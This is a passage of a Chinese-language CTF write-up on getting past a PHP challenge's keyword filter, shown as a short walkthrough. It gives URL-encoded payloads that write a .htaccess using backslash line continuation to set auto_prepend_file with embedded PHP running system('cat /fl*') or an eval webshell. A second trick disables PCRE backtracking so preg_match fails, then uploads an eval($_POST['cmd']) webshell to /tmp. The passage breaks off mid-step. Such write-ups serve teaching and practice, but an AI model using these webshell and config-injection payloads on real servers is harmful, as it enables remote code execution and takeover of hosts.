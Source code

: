 ```php
    if(stristr($content,'on') || stristr($content,'html') || stristr($content,'type') || stristr($content,'flag') || stristr($content,'upload') || stristr($content,'file')) {
        echo "Hacker";
        die();
    }
```

本来我们是可以利用 .htaccess包含一个文件的，文件内容是过滤掉 file 了,但正因为 .htaccess支持 \ 来拼接上下两行语句，那么 我们就可以bypass掉file的过滤。

 pyload：传参访问两次，即可执行代码

```php
?content=php_value auto_prepend_fi\
le .htaccess
#<?php system('cat /fl*');?>\&filename=.htaccess
url编码：
?content=php_value%20auto_prepend_fi%5C%0Ale%20.htaccess%0A%23%3C%3Fphp%20system('cat%20%2Ffl*')%3B%3F%3E%5C&filename=.htaccess

?content=php_value auto_prepend_fi\
le .htaccess
#<?php @eval($_REQUEST['lpp']);?>\&filename=.htaccess
url编码:(注意像传参的关键符号?,=,@,$,_,''这些符号就不要编码了，反正仿照着这些payload来吧) 
?content=php_value%20auto_prepend_fi%5C%0Ale%20.htaccess%0A%23%3C%3Fphp%20@eval($_REQUEST['lpp'])%3B%3F%3E%5C&filename=.htaccess

```

## 非预期解法二：**利用 .htaccess配置prce绕过preg_mach()正则匹配。**

```php
php_value pcre.backtrack_limit 0    # PCRE的回溯限制.
php_value pcre.jit 0        #是否使用 PCRE 的 JIT 编译.

注意代码是if(preg_match("/[^a-z\.]/", $filename) == 1) 而不是if(preg_match("/[^a-z\.]/", $filename) !== 0)，因此可以通过php_value 设置正则回朔次数来使正则匹配的结果返回为false而不是0或1，默认的回朔次数比较大，可以设成0，那么当超过此次数以后将返回false
```

url编码payload:

```php
?filename=.htaccess&content=php_value pcre.backtrack_limit 0%0d%0aphp_value pcre.jit 0%0d%0a%23\
```

这个时候我们就能直接上传fl3g.php了，在fl3g.php中写上一句话之后就能为我们所用了。但是要注意传到当前目录是不行的，源码表明了会清除当前目录下非index.php文件，这里选择根目录下的tmp文件上传。(**一般选择：/tmp 或/var/tmp或/var/html/tmp**)

URL编码后的整体payload为：

```
?filename=/tmp/fl3g.php&content=<%3fphp eval($_POST['cmd']);%3f>
```

之后再上传一个.htaccess文件，修改设置include_path为/tmp

URL编码后的整体payload为：
